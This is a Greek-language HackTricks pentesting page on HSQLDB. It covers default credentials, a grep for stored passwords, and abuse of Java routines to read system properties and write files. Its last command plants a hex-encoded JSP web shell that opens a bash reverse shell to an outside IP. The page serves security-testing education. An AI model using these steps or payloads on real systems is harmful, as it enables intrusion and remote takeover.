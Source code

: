 {{#include ../banners/hacktricks-training.md}}

# Βασικές Πληροφορίες

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** είναι το κορυφαίο σύστημα σχεσιακής βάσης δεδομένων SQL που έχει γραφτεί σε Java. Προσφέρει μια μικρή, γρήγορη, πολυνηματική και συναλλαγματική μηχανή βάσης δεδομένων με πίνακες μνήμης και δίσκου και υποστηρίζει ενσωματωμένες και διακομιστικές λειτουργίες.

**Προεπιλεγμένη θύρα:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Πληροφορίες

### Προεπιλεγμένες Ρυθμίσεις

Σημειώστε ότι από προεπιλογή αυτή η υπηρεσία πιθανώς εκτελείται στη μνήμη ή είναι συνδεδεμένη στο localhost. Αν το βρήκατε, πιθανώς εκμεταλλευτήκατε μια άλλη υπηρεσία και ψάχνετε να αναβαθμίσετε τα δικαιώματα.

Οι προεπιλεγμένες διαπιστεύσεις είναι συνήθως `sa` με κενό κωδικό πρόσβασης.

Αν έχετε εκμεταλλευτεί μια άλλη υπηρεσία, αναζητήστε πιθανές διαπιστεύσεις χρησιμοποιώντας
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Σημειώστε προσεκτικά το όνομα της βάσης δεδομένων - θα το χρειαστείτε για να συνδεθείτε.

# Συλλογή Πληροφοριών

Συνδεθείτε στην DB instance κατεβάζοντας [HSQLDB](https://sourceforge.net/projects/hsqldb/files/) και εξάγοντας το `hsqldb/lib/hsqldb.jar`. Εκτελέστε την εφαρμογή GUI \(eww\) χρησιμοποιώντας `java -jar hsqldb.jar` και συνδεθείτε στην instance χρησιμοποιώντας τα ανακαλυφθέντα/αδύναμα διαπιστευτήρια.

Σημειώστε ότι το URL σύνδεσης θα μοιάζει κάπως έτσι για ένα απομακρυσμένο σύστημα: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Τεχνάσματα

## Ρουτίνες Γλώσσας Java

Μπορούμε να καλέσουμε στατικές μεθόδους μιας κλάσης Java από το HSQLDB χρησιμοποιώντας Ρουτίνες Γλώσσας Java. Σημειώστε ότι η καλούμενη κλάση πρέπει να είναι στο classpath της εφαρμογής.

Οι JRTs μπορούν να είναι `functions` ή `procedures`. Οι συναρτήσεις μπορούν να καλούνται μέσω SQL δηλώσεων αν η μέθοδος Java επιστρέφει μία ή περισσότερες SQL-συμβατές πρωτότυπες μεταβλητές. Καλούνται χρησιμοποιώντας τη δήλωση `VALUES`.

Αν η μέθοδος Java που θέλουμε να καλέσουμε επιστρέφει void, πρέπει να χρησιμοποιήσουμε μια διαδικασία που καλείται με τη δήλωση `CALL`.

## Ανάγνωση Ιδιοτήτων Συστήματος Java

Δημιουργήστε συνάρτηση:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
Εκτέλεση συνάρτησης:
```text
VALUES(getsystemproperty('user.name'))
```
Μπορείτε να βρείτε μια [λίστα με τις ιδιότητες του συστήματος εδώ](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Γράψτε Περιεχόμενο σε Αρχείο

Μπορείτε να χρησιμοποιήσετε το `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java gadget που βρίσκεται στο JDK \(αυτόματα φορτωμένο στο class path της εφαρμογής\) για να γράψετε hex-encoded αντικείμενα στον δίσκο μέσω μιας προσαρμοσμένης διαδικασίας. **Σημειώστε το μέγιστο μέγεθος των 1024 bytes**.

Δημιουργήστε διαδικασία:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
Εκτέλεση διαδικασίας:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{{#include ../banners/hacktricks-training.md}}
